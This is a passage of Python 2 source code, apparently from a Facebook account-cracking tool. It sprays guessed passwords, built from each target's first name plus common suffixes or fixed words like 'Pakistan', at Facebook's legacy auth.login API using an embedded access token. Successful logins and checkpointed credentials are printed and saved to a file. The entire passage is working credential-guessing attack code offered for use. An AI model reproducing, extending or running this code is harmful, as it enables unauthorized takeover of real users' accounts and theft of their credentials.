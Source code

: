 						if 'www.facebook.com' in q["error_msg"]:
							print '\x1b[1;96m[\x1b[1;93mCheckpoint\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass2
							cek = open("out/checkpoint.txt", "a")
							cek.write(user+"|"+pass2+"\n")
							cek.close()
							cekpoint.append(user+pass2)
						else:
							pass3 = b['first_name'] + '987654'
							data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass3)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
							q = json.load(data)
							if 'access_token' in q:
								print '\x1b[1;96m[\x1b[1;92mSuccessful\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass3
								oks.append(user+pass3)
							else:
								if 'www.facebook.com' in q["error_msg"]:
									print '\x1b[1;96m[\x1b[1;93mCheckpoint\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass3
									cek = open("out/checkpoint.txt", "a")
									cek.write(user+"|"+pass3+"\n")
									cek.close()
									cekpoint.append(user+pass3)
								else:
									pass4 = 'Pakistan'
									data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass4)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
									q = json.load(data)
									if 'access_token' in q:
										print '\x1b[1;96m[\x1b[1;92mSuccessful\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass4
										oks.append(user+pass4)
									else:
										if 'www.facebook.com' in q["error_msg"]:
											print '\x1b[1;96m[\x1b[1;93mCheckpoint\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass4
											cek = open("out/checkpoint.txt", "a")
											cek.write(user+"|"+pass4+"\n")
											cek.close()
											cekpoint.append(user+pass4)
										else:
											pass5 = b['first_name'] + 'qwertyuiop'
											data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass5)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
											q = json.load(data)
											if 'access_token' in q:
												print '\x1b[1;96m[\x1b[1;92mSuccessful\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass5
												oks.append(user+pass5)
											else:
												if 'www.facebook.com' in q["error_msg"]:
													print '\x1b[1;96m[\x1b[1;93mCheckpoint\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass5
													cek = open("out/checkpoint.txt", "a")
													cek.write(user+"|"+pass5+"\n")
													cek.close()
													cekpoint.append(user+pass5)
												else:
													pass6 = b['first_name'] + 'Hacker123'